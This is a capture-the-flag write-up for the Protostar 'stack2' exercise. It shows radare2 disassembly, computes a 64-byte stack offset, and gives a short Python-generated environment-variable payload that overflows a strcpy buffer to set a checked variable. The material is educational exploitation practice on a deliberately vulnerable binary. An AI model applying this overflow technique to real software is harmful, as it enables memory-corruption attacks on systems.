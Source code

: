 # stack 2
## Tools used
- radare2
- python3
## Recon
Running the binary, we're greeted with the following error message:
```shell
stack2: please set the GREENIE environment variable
```
We can quickly add the GREENIE environment variable with the following in bash:
```shell
$ export GREENIE=test
```
Running the binary again gives us
```shell
Try again, you got 0x00000000
```
Alright, our entrypoint is our environment variable, and it looks like we want to overwrite a stack variable so 
that it matches a specific value. Basically the same thing as 
[stack1](https://github.com/aldamd/CTF/tree/main/writeups/protostar/stack1) but with a little spice.

## Disassembly

To keep things interesting, let's do our disassembling and debugging with radare2 instead of gdb this time.
Opening up our binary and analyzing the functions, the main function is the most interesting thing here, so let's peek 
at the disassembly.
```shell
┌ 128: int main (int argc, char **argv, char **envp);
│           ; var int32_t var_4h @ esp+0x4
│           ; var int32_t var_18h @ esp+0x18
│           ; var int32_t var_58h @ esp+0x58
│           ; var int32_t var_5ch @ esp+0x5c
│           0x08048494 b    55             push ebp
│           0x08048495      89e5           mov ebp, esp
│           0x08048497      83e4f0         and esp, 0xfffffff0
│           0x0804849a      83ec60         sub esp, 0x60
│           0x0804849d      c70424e085..   mov dword [esp], str.GREENIE ; [0x80485e0:4]=0x45455247 ; "GREENIE"
│           0x080484a4      e8d3feffff     call sym.imp.getenv         ; char *getenv(const char *name)
│           0x080484a9      8944245c       mov dword [var_5ch], eax
│           0x080484ad      837c245c00     cmp dword [var_5ch], 0
│       ┌─< 0x080484b2      7514           jne 0x80484c8
│       │   0x080484b4      c7442404e8..   mov dword [var_4h], str.please_set_the_GREENIE_environment_variable_n ; [0x80485e8:4]=0x61656c70 ; "please set the GREENIE environment variable\n"
│       │   0x080484bc      c704240100..   mov dword [esp], 1
│       │   0x080484c3      e8f4feffff     call sym.imp.errx           ; void errx(int eval, const char *fmt)
│       └─> 0x080484c8      c744245800..   mov dword [var_58h], 0
│           0x080484d0      8b44245c       mov eax, dword [var_5ch]
│           0x080484d4      89442404       mov dword [var_4h], eax
│           0x080484d8      8d442418       lea eax, [var_18h]
│           0x080484dc      890424         mov dword [esp], eax
│           0x080484df      e8b8feffff     call sym.imp.strcpy         ; char *strcpy(char *dest, const char *src)
│           0x080484e4      8b442458       mov eax, dword [var_58h]
│           0x080484e8      3d0a0d0a0d     cmp eax, 0xd0a0d0a          ; '\n\r\n\r'
│       ┌─< 0x080484ed      750e           jne 0x80484fd
│       │   0x080484ef      c704241886..   mov dword [esp], str.you_have_correctly_modified_the_variable ; [0x8048618:4]=0x20756f79 ; "you have correctly modified the variable"
│       │   0x080484f6      e8d1feffff     call sym.imp.puts           ; int puts(const char *s)
│      ┌──< 0x080484fb      eb15           jmp 0x8048512
│      │└─> 0x080484fd      8b542458       mov edx, dword [var_58h]
│      │    0x08048501      b841860408     mov eax, str.Try_again__you_got_0x_08x_n ; str.Try_again__you_got_0x_08x_n
│      │                                                               ; 0x8048641 ; "Try again, you got 0x%08x\n"
│      │    0x08048506      89542404       mov dword [var_4h], edx
│      │    0x0804850a      890424         mov dword [esp], eax
│      │    0x0804850d      e89afeffff     call sym.imp.printf         ; int printf(const char *format)
│      │    ; CODE XREF from main @ 0x80484fb(x)
│      └──> 0x08048512      c9             leave
└           0x08048513      c3             ret
```


## Method
Thanks to radare2's annotations, it's a bit simpler to see what's going on in the assembly code. The main items of interest are:
- getenv call to fetch the GREENIE environment variable and errx call if there is no variable (that's the first message we got)
- strcpy is called, and the result is compared to 0xd0a0d0a (\n\r\n\r)
- if the result of the strcpy is equal to 0xd0a0d0a then we win!

By now you should know the drill, we need to find the stack addresses of our entrypoint and the variable we need to spill into 
so we can determine how big of an input we'll need to smash this stack.

We know [var_18h] is loaded into eax right before the strcpy call so it's probably our environment variable, but what's its address?
radare2 has made this really convenient for us: as we can see, at the top of the disassembly, the memory addresses of our local variables 
are printed! [var_18h] is located at esp+0x18. Since the variable [var_58h] is used to compare our environment variable with 0xd0a0d0a, 
it's safe to assume that [var_58h] is our target, which happens to be located at esp+0x58. The offset between the variables is, you guessed it, 0x40 (64).

Looks like we'll need a 64 + 4 character string to store into our environment variable, but the last 4 bytes need to equate to 0xd0a0d0a,
or "\n\r\n\r". \n and \r aren't very easy to type, so we're going to leverage some shell tricks to store this environment variable.
And let's not forget, we're working with little endian, so the last 4 characters will have to be reversed.

Let's whip up a little shell script to accomplish this task:
```shell
$ export GREENIE=$(python3 -c "print('A'*64 + '\x0a\x0d\x0a\x0d')")
$ ./stack2
you have correctly modified the variable
```

